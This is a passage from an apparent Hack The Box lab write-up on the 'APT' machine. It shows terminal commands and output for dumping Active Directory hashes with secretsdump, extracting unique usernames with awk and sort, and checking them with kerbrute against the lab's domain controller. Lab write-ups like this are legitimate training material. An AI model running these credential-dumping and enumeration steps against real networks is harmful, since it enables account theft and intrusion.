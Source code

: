 Using Impacket's `secretsdump.py` I was able to dump all of the hashes that were stored in the database.  There were hundreds of users on this domain!  Luckily there were a couple of plaintext passwords.  I tried logging into various services using the two plaintext passwords, but didn't get anywhere.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ awk -F ":" '{print $1}' ntds.dump > users

┌──(zweilos㉿kali)-[~/htb/apt]
└─$ wc -l users 
7996 users
```

I dumped the output from `secretsdump.py` to a file and counted the lines that contained hashes.  I was wrong before...there were almost 8000 users on this domain!!

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ awk -F ":" '{print $1}' ntds.dump | grep -v "[*]" | sort | uniq  > users
                                                                                         
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ wc -l users                                             
2004 users
```

After looking through the dump a bit, I noticed there were duplicates.  After sorting and pulling out the unique entries there were only about...2000 or so left.  Much more manageable, but there was a lot to go through still.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ kerbrute_linux_amd64 userenum --dc apt.htb.local -d htb users                                  1 ⨯

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/29/21 - Ronnie Flathers @ropnop

2021/03/29 21:53:14 >  Using KDC(s):
2021/03/29 21:53:14 >   apt.htb.local:88

2021/03/29 21:53:24 >  [+] VALID USERNAME:       Administrator@htb
2021/03/29 21:54:26 >  [+] VALID USERNAME:       APT$@htb
2021/03/29 22:00:35 >  [+] VALID USERNAME:       henry.vinson@htb
2021/03/29 22:12:34 >  Done! Tested 2004 usernames (3 valid) in 1159.740 seconds
```

Using `kerbrute` I was able to find only 3 valid users on this machine out of the 2000+ that had come out of the database, and one of those was only the machine account.
